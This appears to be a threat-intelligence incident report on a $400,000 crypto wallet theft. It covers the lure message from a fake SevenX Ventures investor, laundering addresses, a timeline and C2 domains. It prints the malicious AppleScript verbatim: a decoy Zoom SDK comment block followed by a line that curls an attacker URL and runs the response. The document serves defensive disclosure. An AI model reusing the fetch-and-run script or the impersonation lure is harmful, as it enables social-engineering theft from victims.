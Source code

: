 # Theft from Individual C4

Date:: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags:: 🔑 SquidSquad

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry 
- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## Further Reading

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQSQ_7xv_1.jpg)

![](../images/2024-07-01_SQSQ_7xv_2.jpg)

![](../images/2024-07-01_SQSQ_7xv_3.jpg)




